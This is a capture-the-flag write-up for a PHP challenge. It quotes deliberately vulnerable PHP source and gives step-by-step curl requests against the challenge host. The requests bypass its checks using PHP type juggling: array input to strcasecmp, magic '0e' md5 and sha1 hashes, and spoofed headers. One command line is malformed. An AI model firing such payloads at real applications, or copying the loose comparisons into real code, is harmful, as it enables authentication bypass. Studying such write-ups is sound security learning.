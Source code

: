 
# 0xrabin WrestlePHP

```hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}```
 Challenge Description
>Can you beat PHP?

>Here's something that could help you out
>7068702e30646179676f642e78797a

Hex Decoding 7068702e30646179676f642e78797a gives php.0daygod.xyz
On visiting the site we are greeted with source code of the chall php.

```php
 <?php

    if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
        die("You are a bot, mate!");
    } else echo "Nice! Now that we know you are a human, you can proceed further.\n\n";

    $flag = array("hacktoberfest_ctf{");
    if(apache_request_headers()["Sagarmatha-Hacktoberfest-CTF"] == "https://hacktober.tk/"){
        array_push($flag, "you");
    }
    
    if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
        array_push($flag, "can't");
    }
    
    if($_GET['world'] != "0x10001" && strcasecmp($_GET['world'], "0x10001") == 0){
        array_push($flag, "see");
    }
    
    if(isset($_GET['nice']) && isset($_GET['ecin']))
        if($_GET['nice'] != $_GET['ecin']){
            if(sha1($_GET['nice']) == sha1($_GET['ecin'])){            
                array_push($flag, "what");
            }        
        }
    
    if($_POST['ctf'] == md5($_POST['ctf'])){
        array_push($flag, "this");
    }
    
    if(isset($_POST['parm']) && isset($_POST['mrap'])){
        if(md5($_POST['parm']) == md5($_POST['mrap'])){
            if($_POST['parm'] != $_POST['mrap']){
                array_push($flag, "contains!");
            }
        }
    }
    
    array_push($flag, "}");
    
    echo implode('', $flag);
    
?> 

```


So lets follow along the source and solve the puzzle.
```php
if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
       die("You are a bot, mate!");
   } else echo "Nice! Now that we know you are a human, you can proceed further.\n\n";
  ```

First things first we need set out user-agent to "Yes, I am a human."

`curl -A "Yes, I am a human." https://php.0daygod.xyz/`




```php
if(apache_request_headers()["Sagarmatha-Hacktoberfest-CTF"] == "https://hacktober.tk/"){
       array_push($flag, "you");
   }
  ```
Now we need to add a header `Sagarmatha-Hacktoberfest-CTF` with value `https://hacktober.tk/`
  
`curl -A "Yes, I am a human." https://php.0daygod.xyz/ -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
  



```php
   if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
       array_push($flag, "can't");
   }
```
 we need to add a get variable hello and set its value to hi
 
`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi" -"Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
 
```php
   if($_GET['world'] != "0x10001" && strcasecmp($_GET['world'], "0x10001") == 0){
       array_push($flag, "see");
   }
```

So here the flag part gets appended when get value of world is not equal to 0x10001 but also on the second part of if statement for it to be 0 world must be 0x10001
Luckily there is a bug for strcmp , strcasecmp where we can pass [] to bypass the check.
`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`


  
```php 
    if(isset($_GET['nice']) && isset($_GET['ecin']))
       if($_GET['nice'] != $_GET['ecin']){
           if(sha1($_GET['nice']) == sha1($_GET['ecin'])){            
               array_push($flag, "what");
           }        
       }
```


Here we need to pass two `get` params `nice` and `ecin` with different values but their sha1 values should be same in order for flag to be appended.
We use use the type juggling vulnerability here and pass two different value of nice and ecin but the  beginning part of their sha1 should match containg 0e.
From this [list](https://raw.githubusercontent.com/spaze/hashes/master/sha1.md) I was able to find such two words.
So lets pass them

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`



Similarly 
```php
if($_POST['ctf'] == md5($_POST['ctf'])){
       array_push($flag, "this");
   }
```
Here we need find simlar value of ctf like in step above and pass it by POST
`md5(0e215962017) = 0e291242476940776845150308577824`

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017"`


```php if(isset($_POST['parm']) && isset($_POST['mrap'])){
       if(md5($_POST['parm']) == md5($_POST['mrap'])){
           if($_POST['parm'] != $_POST['mrap']){
               array_push($flag, "contains!");
           }
       }
   }
```
Similarly for the last piece of code we find such two words `hello24343860700` and `hello24034989169` and pass those values to post params parm and mrap

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017&parm=hello24343860700&mrap=hello24034989169"`

And thus the final one liner 
`curl -sA "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017&parm=hello24343860700&mrap=hello24034989169"|grep -oE "Flag: hacktoberfest_ctf{.*}"`

```Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}```


